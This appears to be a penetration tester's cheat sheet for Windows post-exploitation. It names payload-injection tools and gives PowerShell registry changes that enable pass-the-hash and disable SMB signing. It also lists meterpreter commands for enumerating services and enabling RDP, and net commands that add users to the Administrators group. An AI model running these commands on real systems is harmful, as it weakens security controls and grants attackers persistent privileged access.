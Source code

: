 Framework to create payloads: msfvenom

Frameworks to inject payloads

[BDF](https://github.com/secretsquirrel/the-backdoor-factory) Linux:

[Shellter](https://www.shellterproject.com/introducing-shellter/) Windows:

Changing registry values to be able to pass the hash on local admin accounts that get a status_access_denied error
PowerShell:

Set-ItemProperty -Path HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System -Name LocalAccountTokenFilterPolicy -Value 1 -Type DWORD

Set-ItemProperty -Path HKLM:\System\CurrentControlSet\Services\LanManServer\Parameters -Name RequireSecuritySignature -Value 0 -Type DWord


![image](https://user-images.githubusercontent.com/1501624/209717607-47f528b6-a7c4-4b55-b643-66b56fc2fe64.png)


Command Line

![image](https://user-images.githubusercontent.com/1501624/209717640-b4d6610a-9e88-4f1a-8f59-a14a266bd835.png)


Check services on windows using wmic 

`wmic service where 'Caption like "Remote%" and started=true' get Caption`

Enumerate services:

(meterpreter)

`run service_manager -l`

(meterpreter)

`run post/windows/gather/enum_services`

Enable RDP

(meterpreter)

` run getgui -e`

Windows add user to "Remote Desktop Users" group

`net localgroup "Remote Desktop Users" <username> /add`

Windowows: enumerate groups

`net` [[Built-in Groups]](https://ss64.com/nt/syntax-security_groups.html)

Windows enumerate users in group
`net localgroup "Administrators"`

Windows add user to Administrators

`net localgroup "Administrators" <user> /add`




